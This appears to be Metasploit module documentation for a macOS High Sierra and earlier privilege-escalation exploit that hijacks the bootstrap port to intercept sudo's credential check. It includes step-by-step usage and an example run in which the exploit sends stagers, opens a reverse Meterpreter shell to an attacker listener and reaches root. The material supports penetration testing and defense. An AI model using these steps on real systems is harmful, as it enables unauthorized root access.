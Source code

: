 ## Vulnerable Application
This vulnerability works against OSX <= 10.13.3 (High Sierra). It has
been tested against El Capitan (10.11), Sierra (10.12) and High Sierra,
however it may work on older versions.

The task_set_special_port API allows callers to overwrite their bootstrap port,
which is used to communicate with launchd. This port is inherited across forks:
child processes will use the same bootstrap port as the parent.
By overwriting the bootstrap port and forking a child processes, we can now gain
a MitM position between our child and launchd.

To gain root we target the sudo binary and intercept its communication with
opendirectoryd, which is used by sudo to verify credentials. We modify the
replies from opendirectoryd to make it look like our password was valid.

## Verification Steps
1. Get a session on a vulnerable system
2. `use exploit/osx/local/libxpc_mitm_ssudo`
3. `set lhost <IP>`
4. `set lport <PORT>`
5. `set session <session_id>`
6. `run`

## Scenarios
### Example Run
```
msf exploit(multi/handler) > use exploit/osx/local/libxpc_mitm_ssudo
msf exploit(osx/local/libxpc_mitm_ssudo) > set LHOST 192.168.0.2
LHOST => 192.168.0.2
msf exploit(osx/local/libxpc_mitm_ssudo) > set LPORT 4446
LPORT => 4446
msf exploit(osx/local/libxpc_mitm_ssudo) > set SESSION 1
SESSION => 1
msf exploit(osx/local/libxpc_mitm_ssudo) > exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.168.0.2:4446
[*] Uploading file: '/tmp/romrvmmf'
[*] Uploading file: '/tmp/kflrjdgv'
[*] Executing cmd '/tmp/romrvmmf /tmp/kflrjdgv'
[*] Transmitting first stager...(210 bytes)
[*] Transmitting second stager...(4088 bytes)
[*] Sending stage (808168 bytes) to 192.168.0.2
[*] Meterpreter session 2 opened (192.168.0.2:4446 -> 192.168.0.2:50020) at 2018-11-20 16:08:05 +0800

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```
